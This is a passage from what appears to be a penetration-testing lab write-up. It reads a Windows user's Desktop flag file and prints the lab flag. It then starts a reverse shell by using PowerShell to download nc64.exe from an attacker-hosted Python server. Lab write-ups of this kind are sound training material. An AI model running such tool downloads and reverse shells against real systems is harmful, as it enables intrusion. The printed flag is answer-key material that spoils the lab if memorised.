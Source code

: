 Since we are on a Windows machine, the flag would usually be located in the users Desktop

```
type C:\Users\gerald\Desktop\flag.txt
```

<figure><img src="../../../.gitbook/assets/image (736).png" alt=""><figcaption></figcaption></figure>

10th flag: `DANTE{l355_t4lk_m04r_l15tening}`

***

## <mark style="color:red;">Compare my numbers</mark>

Now, we need to get onto the Windows machine itself. We need to setup a reverse shell connection. For this we can utilise `nc.exe` . A netcat, but for Windows. Start a python server and download it using Powershell

```
powershell wget http://10.10.14.4:8000/nc64.exe -o nc64.exe
```

Verify it has been downloaded

```
dir
```

<figure><img src="../../../.gitbook/assets/image (737).png" alt=""><figcaption></figcaption></figure>
